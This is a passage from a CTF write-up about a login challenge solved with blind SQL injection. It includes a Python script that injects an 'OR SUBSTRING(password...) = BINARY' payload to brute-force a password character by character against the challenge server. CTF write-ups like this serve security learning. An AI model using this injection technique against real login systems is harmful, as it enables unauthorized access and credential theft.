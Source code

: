 With this information, the first thing that comes to mind would be error-based blind SQL injection, where I would be able to write a script to bruteforce each letter in the password to ultimately get the full password. 

I started by testing and crafting queries till I found one that worked, then scripted it to get the full flag.

With my original query, I got a flag that seemed correct, but was wrong upon submission, and I realised that the query I had was not case-sensitive. 

_insert facepalm_

![wrong-flag](level-8/image4.png)

But after reading up on SQL queries and wondering why my query was not case-sensitive despite using `SUBSTRING` which is supposed to be case-sensitive, I found the culprit! The `=` sign used to match `SUBSTRING` to the character used to bruteforce was not case-sensitive, and the issue could be solved by checking that the `BINARY` value of both characters are the same instead.

```py
import requests
import string
url = "http://chals.tisc23.ctf.sg:28471/api/login"
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

flag = 'TISC{'
i = len(flag) + 1

while True:
    for c in string.printable:
        data = {
            'username': 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x02',
            'password': f'"OR SUBSTRING(password, 1, {i}) = BINARY "{flag+c}'
        }
        r = requests.post(url, headers=headers, data=data)

        if ("Welcome" in r.text):
            flag += c
            i += 1
            print(flag)
            break

    if c == "}":
        break

print("flag: " + flag)
```
After awhile, I got the flag :D
